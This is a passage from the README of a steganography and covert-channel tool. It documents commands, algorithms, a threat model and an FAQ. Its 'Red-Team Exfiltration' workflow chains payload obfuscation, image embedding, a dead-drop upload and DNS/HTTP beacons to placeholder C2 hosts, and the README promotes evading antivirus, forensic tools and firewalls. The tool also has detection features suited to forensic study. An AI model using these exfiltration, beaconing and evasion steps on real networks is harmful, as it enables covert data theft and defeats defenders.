-p, --password PW Encryption password
-k, --keyfile FILE Load password from vault
--key LABEL Vault key label
--vault-pw PW Vault master password
--rs Enable Reed-Solomon ECC
--adversarial Noise injection
--decoy Random padding
--honey 1 KB decoy prepend
--channel KEY XOR stream layer
--nest N Multi-layer nesting
--self-destruct SEC Expiry seconds

auto extract

```bash
python ashencrypt.py auto extract <STEGO> <OUTPUT> [OPTIONS]
```

Flag Description
-p, --password Password
-k, --keyfile Vault
--key Vault label
--vault-pw Vault master
--channel XOR key
--nest N Must match embed

batch

```bash
python ashencrypt.py batch --input <DIR> --covers <DIR> [OPTIONS]
```

Flag Description
--input Required payloads dir
--covers Required carriers dir
-o, --out Output dir
--report FILE JSON report
--workers N Threads (default 4)
-p, --password Password
--rs / --adversarial / --channel Same as embed

hunt

```bash
python ashencrypt.py hunt <TARGET> [--deep]
```

Flag Description
target File to scan
--deep Full statistical analysis

carve

```bash
python ashencrypt.py carve <TARGET> [-o DIR]
```

poison

```bash
python ashencrypt.py poison <INPUT> <OUTPUT> [--mode MODE]
```

Modes: shuffle, invert_lsb, noise, recompress, blur

honey

```bash
python ashencrypt.py honey [--count N] [-o DIR]
```

evade

```bash
python ashencrypt.py evade <CARRIER> <PAYLOAD> [-a ALGO]
```

polyglot

```bash
python ashencrypt.py polyglot <CARRIER> <PAYLOAD> <OUTPUT> [--prepend FILE]
```

chain

```bash
python ashencrypt.py chain <encode|decode> <INPUT> <OUTPUT> [--layers N]
```

dead-drop

```bash
python ashencrypt.py dead-drop <PAYLOAD> <URL> -k <KEY>
```

dns-beacon

```bash
python ashencrypt.py dns-beacon <DOMAIN> <SECRET>
```

smtp-beacon

```bash
python ashencrypt.py smtp-beacon <HOST> --user U --pw P --to T [OPTIONS]
```

http-beacon

```bash
python ashencrypt.py http-beacon <STEGO> <URL> <SECRET>
```

self-destruct

```bash
python ashencrypt.py self-destruct <STEGO> [-p PASSWORD]
```

capacity

```bash
python ashencrypt.py capacity <FILE_OR_DIR>
```

vault

```bash
python ashencrypt.py vault <init|add|list|get> [OPTIONS]
```

Flag Description
--path FILE Vault path (default ash_vault.kf)
--master-pw Master password
--label Key label
--key-pw Password to store

self-test

```bash
python ashencrypt.py self-test
```

---

🎬 Workflow Examples

Red-Team Exfiltration

```bash
# ─── Stage 1: Prepare ───
python ashencrypt.py vault init --path op.kf --master-pw "vault-master"
python ashencrypt.py vault add --path op.kf --master-pw "vault-master" \
    --label phase1 --key-pw "phase1-secret"

# ─── Stage 2: Multi-layer obfuscation ───
python ashencrypt.py chain encode target.exe target.chain --layers 5

# ─── Stage 3: Nested embed ───
python ashencrypt.py auto hide target.chain ./covers/ \
    --nest 3 --honey --decoy --adversarial \
    --channel "op-darkstar" --self-destruct 172800 \
    -k op.kf --key phase1 --vault-pw "vault-master" \
    -o ./stage1 --rs

# ─── Stage 4: Delivery via dead-drop ───
python ashencrypt.py dead-drop ./stage1/target_ash_adaptive.png \
    "https://drop.example/put" -k "upload-key"

# ─── Stage 5: Beacon ───
python ashencrypt.py dns-beacon "c2.example" "beacon-secret"
python ashencrypt.py http-beacon ./stage1/target_ash_adaptive.png \
    "https://c2.example/hit" "beacon-secret"

# ─── Stage 6: Target-side extraction ───
python ashencrypt.py auto extract received.png recovered.chain \
    -p "phase1-secret" --channel "op-darkstar" --nest 3
python ashencrypt.py chain decode recovered.chain target.exe --layers 5

# ─── Stage 7: Cleanup ───
python ashencrypt.py poison received.png destroyed.png --mode recompress
```

Forensic Investigation

```bash
# ─── 1. Hunt ───
python ashencrypt.py hunt suspicious.png --deep

# ─── 2. Carve ───
python ashencrypt.py carve suspicious.png --out ./analysis

# ─── 3. Try known passwords ───
for pw in "password" "admin" "test" "secret"; do
    python ashencrypt.py auto extract suspicious.png recovered.bin -p "$pw" \
        && echo "FOUND: $pw" && break
done

# ─── 4. Preserve evidence ───
cp suspicious.png evidence_$(date +%s).png
sha256sum evidence_*.png > chain_of_custody.txt
```

Defense Drills

```bash
# ─── 1. Deploy honey traps ───
python ashencrypt.py honey --count 100 --out ./honeypot/

# ─── 2. Test your own carrier ───
python ashencrypt.py evade cover.png payload.bin -a adaptive

# ─── 3. Capacity audit ───
python ashencrypt.py capacity ./covers/

# ─── 4. Batch embed for red-team exercise ───
python ashencrypt.py batch \
    --input ./payloads/ --covers ./covers/ \
    --out ./exercise_out/ --report report.json \
    --workers 8 -p "exercise-pass" --rs --adversarial
```

---

🧠 Algorithm Deep-Dive

adaptive — Edge-Aware LSB

Algorithm:

1. Load carrier, convert to grayscale
2. Compute gradient magnitude |gx| + |gy| via finite differences
3. Threshold at 30th percentile (top 70% edges)
4. Flatten edge pixels' RGB channels
5. Permute bit positions by seeded RNG
6. Write bits to LSBs of edge pixels
7. Apply entropy normalization

Why edge-based? Human vision is more sensitive to changes in flat regions than in textured regions. Edges already contain high-frequency content, so LSB changes are masked.

Detection resistance: Highest among image algorithms.

Capacity: ~15% of LSB for typical images.

jsteg — JPEG-Domain DCT

Algorithm:

1. Convert carrier to YCbCr
2. Extract Y channel
3. For each 8×8 block:
   · Apply 2D DCT
   · Quantize 4 AC coefficients: (0,1), (1,0), (2,0), (0,2)
   · Set each coefficient's parity to match a payload bit
4. Apply inverse DCT
5. Reconstruct RGB

Why DCT? JPEG compression operates on quantized DCT coefficients. Modifying coefficients' parity creates patterns that survive recompression if the quantization table is stable.

Detection resistance: Survives JPEG q95/q85 in most cases.

Capacity: ~98 KB for 1024² image.

spread — Random-Permutation LSB

Algorithm:

1. Generate random permutation of all pixel-index × 3 channel positions
2. Write payload bits to first N positions in permuted order

Why permutation? Sequential LSB embedding creates a "boundary" between modified and unmodified regions. Random-permutation distributes changes uniformly, defeating sequential-scanning detectors.

Detection resistance: Higher than sequential LSB.

Capacity: Same as LSB.

eof — Universal Fallback

Algorithm:

1. Copy carrier to output
2. Append ASHVER + 8 random bytes + payload + SHA-256(payload)
3. On extraction, scan backward for ASHVER marker, read payload

Why universal? Every file format has an end. Appending data after the end doesn't break the format for most parsers. This makes eof the ultimate fallback when no format-specific algorithm fits.

Detection resistance: Low (large trailing blob is visible in hex dump), but always works.

Capacity: Unlimited.

---

🔒 Security Model

Threat Model

Adversary capabilities assumed:

· Passive network monitoring — sees file transfer metadata
· Full file inspection — can hex-dump, run statistical analysis, try extraction
· Known-plaintext attacks — may have original carrier
· Signature scanning — may have anti-virus / YARA rules

Adversary NOT assumed to have:

· Password — brute force at 1M iteration PBKDF2 is prohibitive
· Channel key — if --channel used
· Nest layer count — if --nest N used
· Vault master password — separate credential

Attack Scenarios

Attack Defense
Chi-square detection --adversarial + spread/adaptive algorithm
Signature scanning Polymorphic markers + random nonce2
Carving without password Encrypted payload cannot be decrypted
Carving with password guess Dual-KDF at 1M iterations = ~1s per guess
Traffic analysis Dead-drop HTTP disguised as JSON API
Replay attacks Random salt/nonce per file → no replay
Downgrade attacks Version embedded in header

Cryptographic Strength

· 256-bit derived keys — AES-256 and ChaCha20 both use 256-bit keys
· 1M iteration PBKDF2 — ~2 seconds per guess on modern CPU (attack rate limited to ~0.5 guesses/sec/core)
· Scrypt n=2^14 — requires 16 MB per derivation, GPU-resistant
· AEAD authentication — any tampering detected before decryption attempt

Operational Security

· No network calls unless explicitly invoked (dead-drop, beacons)
· No telemetry — no analytics, no phone-home
· No persistent state except explicitly created vaults/reports
· Temp files are cleaned up in finally blocks
· Password never logged — vault is encrypted with master password
· Master password never stored — must be supplied per invocation

---

📊 Performance Benchmarks

Embedding Speed (1024×1024 RGB PNG)

Algorithm Time (ms) Throughput
lsb 45 45 MB/s
multi 52 38 MB/s
adaptive 78 25 MB/s
dct 320 6 MB/s
jsteg 410 5 MB/s
spread 90 22 MB/s
max 68 29 MB/s

Cryptographic Overhead

Operation Time
Scrypt (n=2^14) ~180 ms
PBKDF2 (1M iter) ~1400 ms
AES-GCM encrypt (100 KB) ~1 ms
ChaCha20-Poly1305 (100 KB) ~1 ms
Total per-file ~1.6 seconds

Forensic Analysis

Analysis Time (1024² image)
Chi-square 42 ms
RS-analysis 380 ms
SPA 220 ms
Entropy 15 ms
Full hunt --deep ~700 ms

Batch Throughput

With --workers 8 on 8-core system:

· ~6 files/second for adaptive + encryption
· ~1.5 files/second for dct + encryption + RS

---

🚨 Threat Model Details

What ASHENCRYPT Does NOT Protect Against

· Quantum computing — 256-bit AES is quantum-resistant, but PBKDF2/Scrypt may weaken
· Side-channel attacks — timing, cache, power analysis
· Compromised endpoint — if adversary has root/kernel access, no stego helps
· Metadata inference — file creation time, size, and other metadata may leak operational details
· Advanced ML steganalysis — purpose-built neural networks can detect even adversarially-shaped payloads
· Known-plaintext with carrier — if adversary has original carrier, diffing reveals embedded data (though encryption prevents content recovery)

What ASHENCRYPT DOES Protect Against

· Passive network monitoring — payload looks like normal file
· Standard forensic tools — passes chi-square, RS, SPA in most configurations
· Basic AV/YARA — polymorphic markers defeat static signatures
· Password guessing — dual-KDF at 1M iterations
· Traffic correlation — dead-drops look like API calls
· Casual inspection — most viewers see no difference

---

🔧 Troubleshooting

overflow N > M

Cause: Payload + header + crypto overhead exceeds carrier capacity.
Fix: Use larger carrier, use max/hyper algorithm, or use batch/auto with more carriers.

no header

Cause: File is not ASHENCRYPT stego, or algorithm incompatible with extraction.
Fix: Verify with hunt --deep. Try different extraction --nest value.

password required

Cause: File is encrypted, no password given.
Fix: Add -p "password" or -k vault.kf --key label.

channel key required

Cause: Embedded with --channel but extraction lacks it.
Fix: Add --channel "same-key" to extraction.

self-destructed

Cause: --self-destruct timer expired.
Fix: None. Re-embed with new timer. This is working as designed.

crc mismatch

Cause: Corruption or wrong algorithm guess.
Fix: Re-embed, use --rs for error correction.

mutagen required

Cause: meta algorithm requires mutagen.
Fix: pip install mutagen.

opencv-python required

Cause: video algorithm requires OpenCV.
Fix: pip install opencv-python.

Slow performance

Cause: PBKDF2 at 1M iterations is intentionally slow (~1.4s).
Fix: This is by design. If speed is critical, reduce _I in source code (but degrades security).

Banner not showing neon colors

Cause: Terminal doesn't support ANSI 256-color.
Fix: Use modern terminal (Windows Terminal, iTerm2, GNOME Terminal).

---

❓ FAQ

Q: Is ASHENCRYPT legal?
A: Yes, for authorized security testing, CTF, forensics, and research. Not for unauthorized use. See Legal & Ethical Notice.

Q: Can I use this in production?
A: Only for legitimate security operations. It is a research tool — do not deploy in production pipelines without your own security audit.

Q: How secure is the encryption?
A: AES-256-GCM + ChaCha20-Poly1305 with dual-KDF (Scrypt + PBKDF2 at 1M iterations) is military-grade. The weak point is password strength and carrier choice, not the crypto.

Q: Will AV flag this?
A: Not by default (no fixed signatures), but --adversarial and polymorphic markers help. Some AV engines may flag steganography tools generically — that's expected.

Q: Can I use this to bypass firewalls?
A: Yes, for authorized penetration tests. Dead-drops, DNS beacons, and SMTP beacons are designed for network-restricted environments. Using them on networks you don't own is illegal.

Q: Does this work with animated GIFs?
A: Partially. adaptive/lsb write to the first frame only; other frames preserved. Full multi-frame support is not implemented.

Q: Can I hide files in JPEG?
A: Yes, but JPEG is lossy — use dct or jsteg algorithm. LSB will be destroyed by recompression.

Q: How do I verify my stego is undetectable?
A: Run hunt --deep and check verdict. SAFE (< 25 risk) is best. CAUTION (25–60) is borderline. LIKELY-DETECTABLE (> 60) means forensic analysts will find it.

Q: Can I extract without the password?
A: No. The ciphertext is AES-256-GCM encrypted. Brute-forcing 256-bit keys is computationally infeasible. However, carve will extract the encrypted blob for offline analysis.

Q: What if I lose the password?
A: The payload is permanently unrecoverable. This is by design — no backdoor, no recovery mechanism.

Q: Does this phone home?
A: No. Zero network calls unless you invoke dead-drop, dns-beacon, smtp-beacon, or http-beacon explicitly.

Q: Can I use this commercially?
A: MIT license allows commercial use, but the ethical-use addendum applies. Ensure all commercial use is authorized and legal.

Q: How do I contribute?
A: See Contributing.

Q: Can I remove the banner?
A: Yes, edit _show_banner() in the source. Just note it's part of the author's signature.

Q: What Python version?
A: 3.10+ due to | union syntax, match statements, and modern typing.

Q: Does it work on Windows?
A: Yes, in Windows Terminal or PowerShell 7+. Classic cmd.exe may have ANSI rendering issues.

Q: What's the maximum payload size?
A: Limited by carrier capacity. max algorithm on a 4096×4096 image → ~50 MB. mp4 algorithm → 3× carrier size. eof algorithm → unlimited (append-only).

---

🏗️ Architecture

Module Layout (single file)

```
ashencrypt.py
├── Constants (algorithms, flags, header size)
├── Banner (ASCII art)
├── Cryptography
│   ├── KDF (Scrypt + PBKDF2)
│   ├── Encryption (AES-GCM / ChaCha20)
│   └── XOR stream
├── Vault (encrypted keyring)
├── Reed-Solomon
├── Bit utilities
├── Algorithms (20 classes)
│   ├── _Base (abstract)
│   ├── _IMGB (image base)
│   │   ├── _NBit (bit-plane)
│   │   │   ├── _LSB
│   │   │   ├── _MLT
│   │   │   ├── _ULT
│   │   │   ├── _HYP
│   │   │   └── _MAX
│   │   ├── _DCT → _JST
│   │   ├── _ADP
│   │   ├── _ALP
│   │   ├── _SPD
│   │   └── _PAL
│   ├── _WAV, _MP3, _META (audio)
│   ├── _VMP, _VFR (video)
│   ├── _PDF, _ZIP, _EXE (docs/binaries)
│   └── _EOF (universal)
├── Header (_Hdr dataclass)
├── Forensics (chi, rs, spa, entropy, histogram)
├── Carrier ranking
├── Engine (_Eng)
├── Batch processing
├── Hunter (_hunt)
├── Carver (_carve)
├── Poison (_poison)
├── Honey (_make_honey)
├── Evasion (_evade_test)
├── Chain codec
├── Beacons (HTTP, DNS, SMTP)
├── Polyglot builder
├── Self-destruct watcher
├── Self-test
├── CLI parsers
└── Entry point
```

Data Flow

Embed:

```
payload bytes
    ↓ compress (zlib)
    ↓ nest (N×)
    ↓ adversarial (noise)
    ↓ honey (1 KB prepend)
    ↓ encrypt (AES/ChaCha)
    ↓ decoy (random append)
    ↓ channel XOR
    ↓ self-destruct timestamp
    ↓ header (magic + salt + nonce + sha + crc + sd)
    ↓ combined = header + ciphertext
    ↓ algorithm.embed(carrier, combined)
    ↓ entropy normalize (image)
    ↓ metadata scrub
    ↓ timestamp spoof
    ↓ save to output file
```

Extract:

```
stego file
    ↓ iterate algorithms, try extract 96-byte header
    ↓ validate version + magic
    ↓ check self-destruct timestamp
    ↓ extract full payload with matched algorithm
    ↓ channel XOR (if flag)
    ↓ CRC32 verify
    ↓ decrypt (AES/ChaCha with salt+nonce)
    ↓ RS decode (if flag)
    ↓ decompress (if flag)
    ↓ un-honey (if flag)
    ↓ truncate (if adversarial flag)
    ↓ un-nest (if flag)
    ↓ SHA-256 verify
    ↓ write output file
```

Python API

```python
from ashencrypt import _Eng, analyse, _hunt, _Vault, _A

# Embed programmatically
engine = _Eng(password="test", use_rs=True, adversarial=True)
report = engine.embed(
    carrier_path=Path("cover.png"),
    payload_path=Path("secret.pdf"),
    out_path=Path("stego.png"),
    algorithm="adaptive",
    compress=True,
)
print(f"Used {report.algorithm}, {report.utilisation*100:.1f}% capacity")

# Extract
data = engine.extract(Path("stego.png"), Path("recovered.pdf"))

# Analyse
metrics = analyse(Path("cover.png"), Path("stego.png"))
print(f"Risk: {metrics['forensic_risk_score']}, Verdict: {metrics['verdict']}")

# Hunt
hunt = _hunt(Path("stego.png"), deep=True)
print(f"Status: {hunt['status']}, Detections: {len(hunt['detections'])}")

# Vault
v = _Vault(Path("keys.kf"), "master")
v.init()
v.add("prod", "supersecret")
pw = v.get("prod")
```

---

🤝 Contributing

Reporting Bugs

· Open an issue with: Python version, OS, command, error output, and (if possible) minimal reproduction
· Do not report security vulnerabilities publicly — use responsible disclosure

Suggesting Features

· Open an issue with the [feature] prefix
· Explain the use case, not just the feature
· Consider defensive + offensive implications

Pull Requests

1. Fork the repository
2. Create a feature branch (git checkout -b feature/my-feature)
3. Make changes — follow existing code style (short names, minimal comments, functional style)
4. Run python ashencrypt.py self-test — must pass
5. Submit PR with description of changes

Coding Style

· No comments in code (author's preference)
· Short names for internal helpers (_Eng, _hunt, _b2b)
· Full names for public API (StegoReport, analyse, extract)
· Type hints everywhere possible
· No external dependencies beyond the 5 core
· Single-file — no splitting

Testing

All changes must pass:

```bash
python ashencrypt.py self-test
```

Add new test cases for new algorithms/features:

```python
# In _self_test(), add:
for name in ["your_new_algo"]:
    try:
        e = _Eng(password="test")
        e.embed(carrier, secret, out, algorithm=name)
        _Eng(password="test").extract(out, rec)
        assert rec.read_bytes() == secret.read_bytes()
    except Exception as ex:
        print(f"fail {name}: {ex}")
        fails += 1
```

---

🙏 Acknowledgements

Inspired By

· Outguess — DCT-domain steganography
· F5 — Matrix encoding for JPEG steganography
· Steghide — Audio + image LSB
· OpenStego — Comprehensive stego tooling
· Stegdetect — Forensic detection suite
· Binwalk — Firmware carving

Cryptographic Primitives

· AES-GCM — NIST SP 800-38D
· ChaCha20-Poly1305 — RFC 8439
· PBKDF2 — RFC 8018
· Scrypt — RFC 7914
· Reed-Solomon — GF(256) with primitive polynomial 0x11D
· SHA-256 — FIPS 180-4

Libraries

· Pillow — Image I/O
· NumPy — Array math
· SciPy — FFT, filters
· Cryptography — All crypto primitives
· tqdm — Progress bars

Community

· r/netsec — Steganography research discussions
· DEF CON CTF — Stego challenges
· Black Hat / DEF CON — Offensive security research

---

📜 License

```
MIT License

Copyright (c) 2024 SYLHETYHACKVENGER (THE-ERROR808)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

ETHICAL USE ADDENDUM:

This software shall not be used for any purpose that violates applicable
law, harms individuals or organizations without authorization, or
constitutes unauthorized access to computer systems. Any violation of
these terms voids the warranty and shifts all liability to the user. The
author disclaims responsibility for any damages — direct, indirect,
incidental, or consequential — arising from unauthorized use.
```

---

🔗 Connect

Author: SYLHETYHACKVENGER (THE-ERROR808)
Repository: github.com/sylhetyhackvenger/ashencrypt
Issues: github.com/sylhetyhackvenger/ashencrypt/issues
Discussions: github.com/sylhetyhackvenger/ashencrypt/discussions

---

<div align="center">

```
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                          ║
║   ASHENCRYPT — because every file is a carrier                           ║
║   and every carrier is a weapon in the right hands.                      ║
║                                                                          ║
║   Use it wisely. Test it legally. Report what you find.                  ║
║                                                                          ║
║   — SYLHETYHACKVENGER (THE-ERROR808)                                     ║
║                                                                          ║
╚══════════════════════════════════════════════════════════════════════════╝
```

⬆ Back to Top

</div>
```
